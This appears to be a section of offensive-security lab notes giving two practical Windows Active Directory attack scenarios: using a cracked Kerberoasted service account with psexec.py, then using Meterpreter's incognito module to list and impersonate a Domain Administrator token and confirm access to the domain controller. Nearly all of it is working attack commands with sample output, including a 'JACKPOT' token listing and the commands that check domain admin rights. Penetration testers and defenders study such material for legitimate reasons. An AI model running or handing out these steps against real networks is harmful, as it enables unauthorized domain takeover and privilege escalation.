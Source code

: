 ## Practical Attack Scenarios

### Scenario 1: Post-Kerberoasting Token Hunt
```bash
# After successful Kerberoasting and gaining access to a system
# 1. Use compromised service account to access target system
psexec.py domain.local/serviceaccount:crackedpassword@target-server.domain.local

# 2. Once on system, escalate to SYSTEM if possible
# Use local exploits, potato attacks, etc.

# 3. Look for administrator tokens in memory
meterpreter > load incognito
meterpreter > list_tokens -u

# 4. If Domain Admin token found, impersonate it
meterpreter > impersonate_token DOMAIN\\Administrator

# 5. Now operating as Domain Administrator
```

### Scenario 2: Complete Token Impersonation Workflow
```bash
# Meterpreter session - hunting for high-value tokens
meterpreter > list_tokens -u

Delegation Tokens Available
========================================
Font Driver Host\UMFD-0
Font Driver Host\UMFD-2
MARVEL\Administrator    # <- JACKPOT! Domain Admin token
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
Window Manager\DWM-2

Impersonation Tokens Available
========================================
No tokens available

# Perfect scenario - Domain Administrator token available!
# This is the highest value target possible

# Execute token impersonation
meterpreter > impersonate_token MARVEL\\administrator
[+] Delegation token successfully impersonated (user: MARVEL\administrator)

# Verify impersonation success
meterpreter > getuid
Server username: MARVEL\administrator

# Drop to shell and confirm Domain Admin access
meterpreter > shell
C:\> whoami
marvel\administrator

# Test domain admin privileges
C:\> net user administrator /domain
# Should show full domain admin information

# Access domain controller
C:\> dir \\dc.marvel.local\c$
# Should have full access to DC
```